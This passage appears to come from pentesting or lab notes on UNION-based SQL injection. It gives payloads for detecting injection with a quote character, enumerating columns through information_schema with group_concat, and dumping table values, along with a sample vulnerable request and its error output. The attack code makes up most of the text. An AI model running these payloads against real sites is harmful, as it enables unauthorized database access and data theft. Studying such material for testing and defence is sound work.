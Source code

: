 {% hint style="info" %}
the `$dbfound` value is the result of the previous query
{% endhint %}

***

* Check the information schema for the DB and table information

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,group_concat(colum_name) FROM information_schema.columns WHERE table_name = '$tablefound'
#This will return a string with all columns of the table
```
{% endcode %}

***

* Obtain the values that we were looking for

{% code overflow="wrap" lineNumbers="true" %}
```sql
0 UNION SELECT 1,2,group_concat($value1,$value2) FROM $tablefound
#Obtain the values from the table we needed
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}


* Check if  vulnerable by sending a malformed petition with `'`

{% code overflow="wrap" lineNumbers="true" %}
```sql
"GET /about/2' HTTP/1.1"
#We obtain a 500 error and this code
<code>SELECT firstName, lastName, pfpLink, role, bio FROM $tablename WHERE id = 2'</code>
```
{% endcode %}

***

* As we know the number of columns, we make a union to select the _column\_name_ parameter and leave the other columns as null to avoid error. Then we obtain info from the default DB _information\_schema_ and select the _column_ parameter specifying the name of the table we need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Make the petition to an invalid value (-1) to avoid displaying an entry of the database instead of the column name
/about/-1 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name='$tablename'

 About | id None #The result obtained in the response
```
{% endcode %}
